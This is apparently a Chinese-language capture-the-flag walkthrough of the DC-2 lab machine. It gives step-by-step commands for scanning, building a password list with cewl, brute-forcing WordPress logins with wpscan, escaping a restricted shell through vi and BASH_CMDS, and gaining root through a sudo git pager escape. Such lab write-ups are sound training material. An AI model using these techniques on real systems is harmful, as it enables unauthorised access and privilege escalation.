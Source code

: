 # DC - 2

---

# 一、信息收集

---

先使用arp-scan确定靶机的IP地址，使用的命令如下

```bash
arp-scan -l
```

​![image](assets/image-20230408160408-q3hltsn.png)​

通过扫描结果可以得到靶机的IP地址为192.168.23.137，接下来使用nmap扫描开放的端口，命令如下

```bash
nmap -A -p- 192.168.23.137
```

​![image](assets/image-20230408160723-4ufvewk.png)​

可以看到靶机开放了靶机的端口为80，7744端口，80为HTTP服务，7744为ssh服务

---

# 二、FLAG1

---

使用浏览器访问靶机的IP地址，结果如下

​![image](assets/image-20230408161213-evdd2uu.png)​

发现重定向到域名dc-2，修改本地hosts文件，添加ip对应域名

> windows路径：C:\Windows\System32\drivers\etc\hosts
>
> linux路径：etc/hosts

​![image](assets/image-20230408161358-b153vnt.png)​

修改后成功访问，仔细观察看到右下角有一个FLAG1，如下

​![image](assets/image-20230408162533-ol31ko2.png)​

---

# 三、FLAG2

---

FLAG1提示：“Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.”

意思应该就是用cewl

> Cewl是一款采用Ruby开发的应用程序，你可以给它的爬虫指定URL地址和爬取深度，还可以添额外的外部链接，接下来Cewl会给你返回一个字典文件，你可以把字典用到类似John the Ripper这样的密码破解工具中。除此之外，Cewl还提供了命令行工具。

先使用cewl收集靶机的信息，命令如下

```bash
cewl http://dc-2 -w passwd.txt
```

​![image](assets/image-20230408162844-enbbi3a.png)​

有了密码和字典，接下来就是找到登陆页面进行爆破，使用dirsearch工具进行扫描，命令如下

```bash
dirsearch -u http://dc-2/
```

​![image](assets/image-20230408163213-40o2gpg.png)​

通过结果可以得到后台登陆页面的路径如下

```bash
http://dc-2/wp-admin/
```

​![image](assets/image-20230408163325-6iqqzhz.png)​

可以看到这是一个wordpress网站，Wordpress有一个著名的扫描工具wpscan，目前我们还差一个用户名的字典，使用`wpscan`​获取用户名的字典，命令如下

```bash
wpscan --url http://dc-2/ -e u 
```

​![image](assets/image-20230408163759-0hmdlyk.png)​

​![image](assets/image-20230408163812-gsrbme8.png)​

保存枚举出来的3个账号，命名为users.txt

​![image](assets/image-20230408163916-4gszky0.png)​

完成后，使用wpscan爆破账号密码，命令如下

```bash
wpscan --url http://dc-2/ -U users.txt -P passwd.txt
```

​![image](assets/image-20230408164208-e3md7fm.png)​

​![image](assets/image-20230408164218-c9bx426.png)​

可以看到出来了两组密码

```bash
jerry / adipiscing                                                                   
tom / parturient  
```

使用第一个用户名和密码成功登陆

​![image](assets/image-20230408164323-2n5rpug.png)​

成功发现flag2

​![image](assets/image-20230408164520-6goggj6.png)​

# 四、FLAG3

---

FLAG2提示:“If you can’t exploit WordPress and take a shortcut, there is another way.Hope you found another entry point.”

意思就是要我们尝试其他方法了，前面nmap扫描得到一个ssh端口，而且还用另外一个用户名和密码不知道是哪里的，尝试使用ssh登录，命令如下

```bash
ssh tom@192.168.23.137 -p 7744 
```

成功登陆

​![image](assets/image-20230408165145-f0abym1.png)​

成功发现flag3，尝试登陆发现被“rbash”限制了，查看可以使用的指令，命令如下

```bash
compgen -c
```

​![image](assets/image-20230408165352-qvk18mt.png)​

发现存在vi命令，使用vi命令读取flag3，如下

​![image](assets/image-20230408165514-absvzjm.png)​

---

# 五、FLAG4

---

提示:“Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.”

提到了tom和jerry和su，应该是让我们提权，然后去看看jerry和su

vi可以用 有一个vi的提权

```bash
vi随便打开文件
再下面添加
:set shell=/bin/sh
:shell
```

​![image](assets/image-20230408170806-q4frryw.png)​

​![image](assets/image-20230408170906-j0mwbfm.png)​

发现了flag4，使用vi查看，如下

​![image](assets/image-20230408170958-tw1ru4u.png)​

获得flag4

---

# 六、FLAG5

---

提示：”Good to see that you’ve made it this far - but you’re not home yet.You still need to get the final flag (the only flag that really counts!!!).No hints here - you’re on your own now. :-)Go on - git outta here!!!“

前面FLAG3有提示su。我们去看看root目录,发现切不了，尝试进一步提权，先查看有没有命令可以使用

```bash
find / -perm -u=s -type f 2>/dev/null
```

发现还是被rbash，尝试绕过，网上找到了个rbash环境变量的绕过方法，如下

```bash
export -p        //查看环境变量
BASH_CMDS[a]=/bin/sh;a         //把/bin/sh给a
/bin/bash
export PATH=$PATH:/bin/         //添加环境变量
export PATH=$PATH:/usr/bin      //添加环境变量
```

​![image](assets/image-20230408171719-u2cifnh.png)​

​![image](assets/image-20230408171749-q77uc7a.png)​

看到有个sudo，我们看看啥有sudo权限的，命令如下（先切换到Jerry）

```bash
sudo -l
```

​![image](assets/image-20230408172141-pu346gb.png)​

git是root权限，尝试git提权

```bash
(我们需要将shell的窗口变窄,使得回显信息不能一页显示)
1、sudo git help config #在末行命令模式输入 
!/bin/bash 或 !'sh' #完成提权 
2、sudo git -p help 
!/bin/bash #输入!/bin/bash，即可打开一个用户为root的shell
```

​![image](assets/image-20230408172352-u1xj2po.png)​

​![image](assets/image-20230408172407-his3yen.png)​

提权成功 获得root权限，切换到root目录下，成功得到flag5

​![image](assets/image-20230408172445-op7qzro.png)​

‍
